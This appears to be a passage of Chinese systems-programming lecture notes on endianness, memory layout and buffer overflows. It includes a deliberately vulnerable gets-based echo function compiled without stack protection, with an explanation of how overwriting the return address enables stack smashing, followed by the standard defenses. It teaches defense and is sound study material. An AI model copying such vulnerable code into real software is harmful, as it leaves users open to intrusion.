| 大端（big endian） | 最高有效字节（MSB）放在最低地址 | SPARC、网络字节序（Internet） |
| 小端（little endian） | 最低有效字节（LSB）放在最低地址 | Intel x86 / x86-64、ARM 的 Android 与 iOS |
| 双端（bi-endian） | 可配置成任一种 | ARM（架构本身） |
课件 p.6–10 用一个联合把同一块 8 字节内存分别当作 char/short/int/long 数组来读。先用 dw.c[j] = 0xf0 + j 把 8 个字节依次填成 f0 f1 … f7（数组元素按下标从低地址到高地址排列，这一步与字节序无关），再按不同宽度读出：

图 2 课件 p.8–10：同一段字节 f0…f7 在小端与大端下的读法
union { unsigned char c[8]; unsigned short s[4];
unsigned int i[2]; unsigned long l[1]; } dw;
for (j = 0; j < 8; j++) dw.c[j] = 0xf0 + j;结果的差别全在“把相邻字节拼成一个数时谁是高位”。小端下 s[0] 把 c[0]=f0 当低位、c[1]=f1 当高位，得到 0xf1f0；大端下反过来得到 0xf0f1。下表为实测输出（与课件 p.8/p.9/p.10 完全一致）：
表 3 课件 p.8–10：同一段字节 f0…f7 在小端与大端下的实测输出
| 读法 | 小端（x86-64） | 大端（Sun） |
|---|---|---|
c[0..7] | f0 f1 f2 f3 f4 f5 f6 f7 | f0 f1 f2 f3 f4 f5 f6 f7（相同） |
s[0..3] | f1f0 f3f2 f5f4 f7f6 | f0f1 f2f3 f4f5 f6f7 |
i[0..1] | f3f2f1f0 f7f6f5f4 | f0f1f2f3 f4f5f6f7 |
l[0] | x86-64（8B）：f7f6f5f4f3f2f1f0；IA32（4B，课件 p.8）：f3f2f1f0 | 64 位：f0f1f2f3f4f5f6f7（32 位 Sun 课件 p.9 为 4 字节 f0f1f2f3） |
★ 要点
联合大小 = 最大字段大小（再按对齐取整）；各字段从同一地址开始、重叠。
bit2float/float2bit 是重新解释位模式，与 (float)/(unsigned) 的数值转换完全不同。
数组/字符串按下标从低到高存放，没有字节序问题；只有把多个字节拼成一个数时才有。
x86-64 是小端：低地址放低位字节。读 union 中的大数时要按小端把字节倒着拼。
常见问题：怎样在程序中判断本机的字节序？网络字节序是怎么回事？
最简单的办法是取一个整数的地址，当作字节指针读出第一个字节：unsigned x = 1; 如果 *(unsigned char *)&x 为 1，说明最低有效字节放在最低地址，是小端；为 0 则是大端。用课件那样的联合来写效果相同。x86-64 上实测 0x12345678 在内存中从低地址起依次为 78 56 34 12。
网络协议规定多字节整数一律按大端顺序传输，称为网络字节序。C 库为此提供了 htonl、htons（host to network）以及 ntohl、ntohs 四个转换函数：在小端机器上它们把字节顺序颠倒，实测 htonl(0x12345678) = 0x78563412，其内存字节为 12 34 56 78，正好是大端的排列；htons(0x1234) = 0x3412。在大端机器上这几个函数什么也不做。因此写网络程序时只要在发送前、接收后各转换一次，就不必关心本机是哪种字节序。还要记住，字节序只影响多字节数据在内存中的排列，不影响寄存器中的数值，也不影响运算结果：x >> 8 在任何机器上都表示去掉最低 8 位。
8.3 C 复合类型小结（课件 p.11）#
表 4 课件 p.11：C 语言三种复合类型小结
| 类型 | 内存分配方式 | 要点 |
|---|---|---|
| 数组 | 连续分配 | 按元素对齐要求对齐；数组名是指向首元素的指针；无边界检查 |
| 结构体 | 按声明顺序分配 | 中间和末尾插入填充以满足对齐 |
| 联合 | 各声明重叠 | 大小取最大字段；是绕过类型系统的手段 |
用同一组字段对照最能看出三者的差别（如表 4）：数组 int i[2] 将两个 4 字节整数连续存放在偏移 0 和偏移 4（共 8 字节），数组名 i 在表达式中退化为首元素指针 &i[0]，但下标访问 i[k] 不做任何边界检查；结构体 struct S1 { char c; int i[2]; double v; } 按声明顺序依次排放各字段，并在 c 后填充 3 字节、在 i[2] 后填充 4 字节以满足对齐要求，总大小为 1 + 3 + 8 + 4 + 8 = 24 字节（见图 1 右）；联合 union U1 { char c; int i[2]; double v; } 则让三个字段全部从偏移 0 开始重叠共用同一块空间，总大小取最大字段 double 的 8 字节（见图 1 左），写一个字段再读另一个字段相当于绕过类型系统、按新类型直接重新解释那 8 个字节。
8.4 x86-64 Linux 内存布局（课件 p.13–16）#
一个运行中的进程，其虚拟地址空间从高到低分成几个区域。记住它们的相对高低和增长方向即可：

图 3 课件 p.13：x86-64 Linux 的内存布局（示意，未按比例）
栈（Stack）是放局部变量的区域，从高地址向下增长，上限 8MB。起始位置被随机化（ASLR）。
共享库（Shared Libraries）是动态链接的库代码，位于栈和堆之间，起始位置也被随机化。
堆（Heap）是 malloc/calloc/new 动态分配的内存，从低处向上增长。
数据段（Data）存放全局变量、static 变量、字符串常量等静态分配的数据。
代码段（Text）存放只读的可执行机器指令；从 0x400000 起（传统不开 PIE 时）。
课件 p.15 给出一组典型地址，可以印证这个布局：代码（main、useless）在 0x40xxxx，全局数组在 0x60xxxx 的数据段，小的 malloc 块在堆里，而局部变量 local 在 0x7ffe… 的高地址栈区，大的 malloc 块和共享库在 0x7f… 区。课件 p.16 的 runaway 递归示例说明：每层递归都在栈上占一个大数组（128 KiB），递归太深会耗尽 8MB 栈空间，触发段错误——这也是栈溢出的一种，但和下面的“缓冲区溢出攻击”是不同的问题。
/* 课件 p.14–15 的典型地址（x86-64 Linux，未开 PIE）：
* useless() = 0x0000000000400590 main() = 0x000000000040060c (.text 代码段)
* big_array = 0x0000000000601060 (16MB) huge_array = 0x0000000080601060 (2GB) (.bss 数据段)
* psmall2 = 0x000000008359d010 (256B) psmall4 = 0x000000008359d120 (256B) (Heap 堆，向上增长)
* phuge3 = 0x00007f7162a1d010 (4GB) phuge1 = 0x00007f7262a1e010 (256MB) (mmap/共享库区)
* local = 0x00007ffe4d3be87c (Stack 栈，位于用户空间最高处，向下增长) */
/* 课件 p.16：runaway 递归爆栈示例——每层栈帧分配 128 KiB 局部数组 */
int recurse(int x) {
int a[1 << 15]; /* 4 * 2^15 = 131072 B = 128 KiB */
printf("x = %d. a at %p\n", x, a);
a[0] = (1 << 14) - 1;
a[a[0]] = x - 1;
if (a[a[0]] == 0) return -1;
return recurse(a[a[0]]) - 1;
}
/* 运行 ./runaway 67 的输出（每层递归 a 的地址向下递减约 0x20010 ≈ 128 KiB）：
* x = 67. a at 0x7ffd18aba930 -> x = 66. a at 0x7ffd18a9a920 -> x = 65. a at 0x7ffd18a7a910
* ... -> x = 3. a at 0x7ffd182ba530 -> x = 2. a at 0x7ffd1829a520
* Segmentation fault (core dumped) <-- 约 65 层 × 128 KiB > 8 MB 栈上限，耗尽栈空间触发段错误 */具体例子：实测各类数据所在的地址#
图 3 只画出了各区域的相对位置，课件 p.15 也只列了一组地址。要把这张图和真实程序对应起来，最直接的办法是自己写一个小程序，把各种对象的地址打印出来。下面的 layout.c 覆盖了图 3 中的每一个区域：代码中的函数、字符串常量、已初始化和未初始化的全局变量、static 局部变量、局部变量、小块和大块的 malloc，以及 C 库内部的一个对象 stdout。为了与课件一致，先用 -no-pie 编译，让代码段像传统做法那样从 0x400000 开始，在 x86-64 Linux（gcc 13、glibc 2.39）上连续运行两次；最后一列是现代发行版默认的 PIE 编译结果。
#include <stdio.h>
#include <stdlib.h>
int inited[4] = {1, 2, 3, 4}; /* 已初始化全局变量 -> .data */
char big[1 << 24]; /* 未初始化全局数组 -> .bss */
const char *msg = "hello"; /* 字符串常量 -> .rodata */
int useless(void) { return 0; }
int main(void)
{
static int counter = 7; /* static 局部变量 -> .data */
int local = 0; /* 局部变量 -> 栈 */
void *small = malloc(256); /* 小块 -> 堆 */
void *large = malloc(1L << 28); /* 256 MiB 大块 -> mmap 区 */
printf("main %p\n", (void *)main);
printf("useless %p\n", (void *)useless);
printf("\"hello\" %p\n", (void *)msg);
printf("inited %p\n", (void *)inited);
printf("counter %p\n", (void *)&counter);
printf("big %p\n", (void *)big);
printf("small %p\n", small);
printf("large %p\n", large);
printf("stdout %p\n", (void *)stdout);
printf("local %p\n", (void *)&local);
free(small); free(large);
return local + counter - 7;
}表 5 layout.c 的实测输出（红底为两次运行之间发生变化的地址）
| 对象 | 所在区域 | -no-pie 第 1 次 | -no-pie 第 2 次 | 默认 PIE |
|---|---|---|---|---|
| main | .text（代码） | 0x4011a0 | 0x4011a0 | 0x5647bbe301b3 |
| useless | .text（代码） | 0x401196 | 0x401196 | 0x5647bbe301a9 |
| "hello" | .rodata（只读常量） | 0x402086 | 0x402086 | 0x5647bbe31086 |
| inited | .data | 0x404040 | 0x404040 | 0x5647bbe33020 |
| counter（static） | .data | 0x404030 | 0x404030 | 0x5647bbe33010 |
| big | .bss | 0x404080 | 0x404080 | 0x5647bbe33060 |
| small（256 B） | 堆 | 0x1dd7e2a0 | 0x85392a0 | 0x5647ca5f12a0 |
| large（256 MiB） | mmap 区 | 0x7ffb457ff010 | 0x7fc1cbdff010 | 0x7fb2815ff010 |
| stdout | 共享库 libc | 0x7ffb55a055c0 | 0x7fc1dc0055c0 | 0x7fb2918055c0 |
| local | 栈 | 0x7ffce85d5fb4 | 0x7ffec9d1e974 | 0x7ffc5378dfc4 |

图 4 把第 1 次运行的地址放进内存布局（-no-pie；各区域之间的距离未按比例）
先看低地址的几个区域。.text、.rodata、.data、.bss 四个节的地址在两次运行中完全相同，因为不开 PIE 时它们的位置由链接器在生成可执行文件时就确定了（readelf -S 显示 .text 从 0x4010b0、.rodata 从 0x402000、.data 从 0x404020、.bss 从 0x404060 开始），顺序依次是代码、只读常量、已初始化数据、未初始化数据。有三点值得注意。第一，“字符串常量”严格说放在只读的 .rodata 中，紧挨着代码，与代码一起映射为不可写；变量 msg 是一个指针，它本身在 .data 里，指向的字符串 "hello" 才在 .rodata。图 3 把字符串常量归入 Data 是课件的粗略分法。第二，static 局部变量 counter 和全局变量一样放在 .data，它的生命周期是整个程序，只是名字的作用域限于 main。第三，big 虽然有 16 MiB，可执行文件却只有约 16 KB，因为 .bss 在文件中不占空间，只记录大小，程序加载时由操作系统分配并清零。
再看高地址的几个区域。小块 small 来自堆，堆从 .bss 末尾之上开始，但起点加了一个随机偏移，所以两次运行分别得到 0x1dd7e2a0 和 0x85392a0。大块 large 并不在堆里：glibc 的 malloc 对超过阈值（默认 128 KiB）的请求直接用 mmap 向操作系统要一整块内存，它落在 0x7f… 开头的区域，与共享库 libc（stdout 就在 libc 的数据区中）相邻，这与课件 p.15 中大块 malloc 的地址特征一致。局部变量 local 在 0x7ffc…、0x7ffe… 附近，位于用户空间的最顶端，栈从这里向下增长。这三类地址在两次运行之间都变了，这就是地址空间布局随机化（ASLR）。最后一列的 PIE 版本更进一步：连代码和全局数据也被整体搬到一个随机的基址（0x55… 或 0x56… 开头），所以 0x400000 只是“传统不开 PIE 时”的起点。但同一个程序内部的相对距离不变，例如 main − useless 在两种编译方式下都是 0xa，inited − counter 都是 0x10，因为它们是作为一个整体被平移的。ASLR 让攻击者难以预先知道某段代码或某个栈变量的确切地址，它作为一种防御手段的意义在 8.6 节讨论。
常见问题：函数能返回局部变量的地址吗？
不能。局部变量存放在函数的栈帧中（第 6 讲），函数返回时栈帧被释放，这块内存随时会被下一次调用覆盖，返回的指针就成了悬空指针（第 6 讲 6.2 节已经指出，pop 之后内存里的旧值并不会被清除，只是不再属于栈）。对于 int *bad(void) { int local = 42; return &local; }，gcc 13 会给出 “function returns address of local variable” 警告；而且由于这个指针在函数返回后本来就不能使用，gcc 13 实测在 -O0、-Og、-O2 下都直接把返回值编译成 0（空指针），调用者一旦解引用就会段错误，所以不要指望“返回之后还能读到 42”。
需要在函数返回后继续使用的数据，应当按表 5 中各区域的生存期来选择存放位置：由调用者提供空间并把指针传进来（数据在调用者的栈帧中）；使用 static 局部变量（放在 .data 或 .bss，整个程序运行期间都存在，但所有调用共享同一份）；或者用 malloc 在堆上分配，由调用者负责 free。
8.5 内存越界与缓冲区溢出（课件 p.18–28）#
C 语言不做数组边界检查，写 a[i] 时只是按 基址 + i × 元素大小 算地址再写，i 越界也照写不误。课件 p.18–19 的例子里，struct_t { int a[2]; double d; } 中对 s.a[i] 用越界的 i 赋值，会按 i 命中 d 所在的字节、甚至栈上更高处的“关键状态”，于是 fun(i) 对不同 i 返回不同的、系统相关的结果：
typedef struct {
int a[2]; /* 偏移 0..3 为 a[0]，偏移 4..7 为 a[1] */
double d; /* 偏移 8..15 为 double d（8 字节：d0..d7） */
} struct_t;
double fun(int i) {
volatile struct_t s;
s.d = 3.14;
s.a[i] = 1073741824; /* 1073741824 = 2^30 = 0x40000000；i >= 2 时越界写！ */
return s.d;
}
图 5 课件 p.19：s.a[i] 越界写按 i 命中结构体之外的内存
表 6 课件 p.18–19：fun(i) 在不同下标 i 下改写的内存位置与运行结果
| 调用参数 | s.a[i] 实际写入的栈位置 | 运行输出（课件 p.18–19） | 位级原因解析 |
|---|---|---|---|
fun(0)、fun(1) | a[0]（偏移 0..3）、a[1]（偏移 4..7） | 3.1400000000 | 未越界，s.d 的 8 个字节完好无损 |
fun(2) | d 的低 4 字节 d3..d0（偏移 8..11） | 3.1399998665 | 3.14 的 IEEE 754 编码为 0x40091eb8_51eb851f，小端下低 32 位尾数被改成 0x40000000，数值仅微小变化 |
fun(3) | d 的高 4 字节 d7..d4（偏移 12..15） | 2.0000006104 | 高 32 位含符号、阶码与高位尾数，被改成 0x40000000（阶码 1024 → E = 1），变成 1.0000003… × 2^1 |
fun(4)–fun(7) | struct_t 上方的栈帧关键状态（偏移 16..31） | Segmentation fault 或 Stack smashing detected | 改坏了栈上的金丝雀、保存的寄存器或返回地址（具体哪一个 i 崩溃取决于编译器栈帧布局） |
fun(8) | 越过关键状态写到更高地址（偏移 32..35） | 3.1400000000 或 Segmentation fault | 既没碰 s.d 也可能恰好跳过返回地址（p.19），或改坏调用者状态而崩溃（p.18） |
当越界的数组是栈上的字符数组，而写入它的又是不检查长度的输入函数时，问题就从“改坏数据”升级为“改掉返回地址”。这类越界统称缓冲区溢出（buffer overflow），是安全漏洞的头号技术成因（课件 p.20；排第一的总体成因是社会工程/用户疏忽）。根源常常是对字符串输入不加长度限制，典型的危险函数是 gets：
/* Unix gets()：读到换行/EOF 为止，无法限制长度 */
char *gets(char *dest) {
int c = getchar();
char *p = dest;
while (c != EOF && c != '\n') { *p++ = c; c = getchar(); }
*p = '\0';
return dest;
}课件 p.22–23 的 echo 函数把输入读进一个只有 4 字节的 buf。gcc 13 实测的反汇编与课件 p.23 一致（为对照关掉了栈保护）：
void echo() { 00000000004006cf <echo>: # gcc -Og -fno-stack-protector
char buf[4]; 4006cf: 48 83 ec 18 sub $0x18, %rsp # 分配 24 字节栈帧
gets(buf); 4006d3: 48 89 e7 mov %rsp, %rdi # buf = %rsp（栈帧底）
puts(buf); 4006d6: e8 a5 ff ff ff callq 400680 <gets> # 不限长度地写入 buf
} 4006db: 48 89 e7 mov %rsp, %rdi
4006de: e8 3d fe ff ff callq 400520 <puts@plt>
void call_echo() { 4006e3: 48 83 c4 18 add $0x18, %rsp
echo(); 4006e7: c3 retq # 从 (%rsp+24) 弹出返回地址
} 00000000004006e8 <call_echo>:
4006e8: 48 83 ec 08 sub $0x8, %rsp
4006ec: b8 00 00 00 00 mov $0x0, %eax
4006f1: e8 d9 ff ff ff callq 4006cf <echo> # 压入返回地址 0x4006f6
4006f6: 48 83 c4 08 add $0x8, %rsp # <-- 正常应返回此处
4006fa: c3 retq关键在于栈帧布局：buf 占最低的 4 字节，它和 8 字节的返回地址之间隔着 20 字节未使用空间，共 24 字节。于是能写多少字符而不出事，取决于会不会盖到返回地址：

图 6 课件 p.24–27：echo 栈帧中 buf 与返回地址的位置，以及三种输入长度的后果
表 7 课件 p.24–27：echo 栈帧（原返回地址 0x00000000004006f6）在三种输入长度下的后果
| 输入长度 | 发生什么 | 后果 |
|---|---|---|
| ≤ 23 字符 | 如输入 23 个字符 "01234567890123456789012"，连同结尾 \0 共 24 字节（30..32 00），填满 buf[4] 和上方 20 字节空白，返回地址仍为 00 00 00 00 00 40 06 f6\0 共 ≤ 24 字节，填满 buf 和 20 字节空白，不碰返回地址 | 正常返回（课件 p.26：溢出了 buf 但没破坏状态） |
| 24 字符 | 如输入 24 个字符 "012345678901234567890123"，加结尾 \0 共 25 字节，第 25 字节 \0（0x00）覆写返回地址最低字节 0xf6，将其变成 00 00 00 00 00 40 06 00\0 共 25 字节，多出的 \0 盖掉返回地址的最低字节 | ret 跳到被篡改的 0x400600 → 段错误崩溃（课件 p.27） |
| 精心构造 | 用准确长度的串把返回地址整个改写成攻击者选定的地址 | 栈粉碎攻击（见下） |
课件 p.28 的“栈粉碎攻击（stack smashing）”把这个思路讲清楚：过程 Q 里有个 char buf[64]，攻击者输入一个足够长的串，不仅填满 buf，还一直写到保存返回地址的位置，把原本的返回地址 A 改成另一段代码 S 的地址。Q 执行 ret 时就跳到了 S。课件 p.32–33 进一步给出代码注入的变体：输入串里直接放一段机器码，再把返回地址改成指向 buf 自己，ret 后就执行了注入的代码。理解“ret 从栈上取地址跳转”这一点（第 6 讲），就能明白为什么改掉栈上那 8 个字节如此危险。两种攻击方式在栈帧上的区别见 图 7。

图 7 课件 p.28、p.32–33：栈粉碎（改跳已有代码 S）与代码注入（改跳栈上缓冲区 B）的原理对比
课件 p.34–39 用两个真实历史事件说明缓冲区溢出的危害：① 1988 年 Morris 互联网蠕虫（课件 p.35）：早期 Unix 的 fingerd 守护进程用 gets() 读取客户端发来的参数，蠕虫发送一段包含攻击代码、填充字节和新返回地址的伪造请求，在受害机器上拿到 root shell 并继续扫描传播，数小时内感染了约 6000 台计算机（占当时整个互联网的 10%），直接促成了计算机应急响应组（CERT）的成立；② 1999 年即时通讯大战（IM War，课件 p.36–38）：AOL 旨在封堵微软 MSN 客户端接入 AIM 服务器，竟暗中利用自家 AIM 客户端里的缓冲区溢出漏洞下发一段检测代码，读取客户端特定内存位置的 4 字节签名来甄别连接者是不是真 AIM 客户端。课件 p.39 还顺带区分了两个常见概念：蠕虫（Worm）是能够自己独立运行、并能把自身的完整工作副本主动传播到其他计算机的程序；病毒（Virus）则是把自己附加到其他宿主程序之中、不能独立运行的代码。
⚠ 本讲的安全内容只讲“为什么会被攻破、怎么防”
课件和本讲义解释缓冲区溢出的原理与防御，目的是让你写出没有漏洞的程序、看懂 Attack Lab。这里不涉及、也不需要构造真正可用的攻击载荷——考试考的是原理（栈布局、返回地址、各防御手段的作用与代价），下面第 8.6 节是重点。
8.6 三种防御手段（课件 p.40–47）#
① 在代码里避免漏洞（根本办法）：用能限制长度的库函数——fgets 代替 gets，strncpy 代替 strcpy，不要用带 %s 的 scanf（改用 fgets 或 %ns）。这是唯一从源头消除问题的办法，但依赖程序员自觉。
void echo() {
char buf[4];
fgets(buf, 4, stdin); /* 最多读 4-1 个字符，留一位给 \0 */
puts(buf);
}② 系统级防护（不改源码、由操作系统/硬件提供）：
栈地址随机化（ASLR）让程序启动时在栈上分配一段随机大小的空间，使整个栈的地址每次运行都不同。攻击者难以预测注入代码或 buf 的确切地址（课件 p.42 给出同一程序连续 5 次运行中局部变量 local 的地址：0x7ffe4d3be87c、0x7fff75a4f9fc、0x7ffeadb7c80c、0x7ffeaea2fdac、0x7ffcd452017c，每次整体栈位置都不同，见 图 8 左）。
栈不可执行（NX / 不可执行段）是另一道防线：x86-64 为内存页加了显式的“执行”权限位，把栈标记为不可执行。即使把机器码注入到栈上的 buf，试图执行它也会失败（课件 p.43：传统 32 位 x86 只能标记内存页“只读”或“可写”，凡可读的页都可执行；x86-64 页表新增显式的“执行”权限位，实现写与执行分离，见 图 8 右）。
图 8 课件 p.42–43：系统级防护——栈地址随机化（ASLR）使栈位置每次不同，不可执行栈（NX）禁止执行栈上内容
③ 栈金丝雀（stack canary）：在 buf 和返回地址之间放一个特殊值（“金丝雀”），函数返回前检查它有没有被改动。因为溢出要盖到返回地址，必然先盖掉金丝雀，于是能在跳转发生前就发现并终止。gcc 的 -fstack-protector 现在是默认开启的。
图 9 课件 p.46：金丝雀放在 buf 与返回地址之间
echo: # 课件 p.45：gcc 开启栈保护后
sub $0x18, %rsp
mov %fs:0x28, %rax # 取金丝雀（%fs:0x28，每次运行随机、只读）
mov %rax, 0x8(%rsp) # 放到 buf 上方
xor %eax, %eax # 擦掉寄存器里的副本
... call gets / puts ...
mov 0x8(%rsp), %rax # 取回栈上的金丝雀
xor %fs:0x28, %rax # 与原值比较（相同则异或为 0）
je .L_ok # 一致 -> 正常返回
call __stack_chk_fail # 不一致 -> 终止（stack smashing detected）
.L_ok:
add $0x18, %rsp
ret金丝雀值从只读的 %fs:0x28 读取、每次运行随机生成，攻击者无法预先写对它。实测：对 buf[4]、开 -fstack-protector-strong 时，echo 里确实多出 mov %fs:40,%rax; mov %rax,8(%rsp) 和返回前的 sub %fs:40,%rax; jne，输入 7 个字符即报 *** stack smashing detected *** 并终止。三种手段的对比正是 2025 年阶段测验第 24 题考的内容（见第三部分）。
表 8 三种防御手段的特点对比（2025 阶段测验第 24 题）
| 防御手段 | 需要改用户源码？ | 需要重新编译？ | 需要换 CPU 硬件？ | 原理 |
|---|---|---|---|---|
| 用 fgets 等安全库函数 | 是 | 是 | 否 | 从源头限制写入长度 |
| 栈地址随机化（ASLR） | 否 | 否 | 否 | 地址每次变，攻击者难以预测 |
| 内存“可执行”权限位（NX） | 否 | 否 | 是 | 栈标记为不可执行，注入码跑不起来 |
| 金丝雀（canary） | 否 | 是 | 否 | 返回前查哨兵值是否被冲掉 |
8.7 拓展：返回导向编程 ROP（课件 p.48–53）#
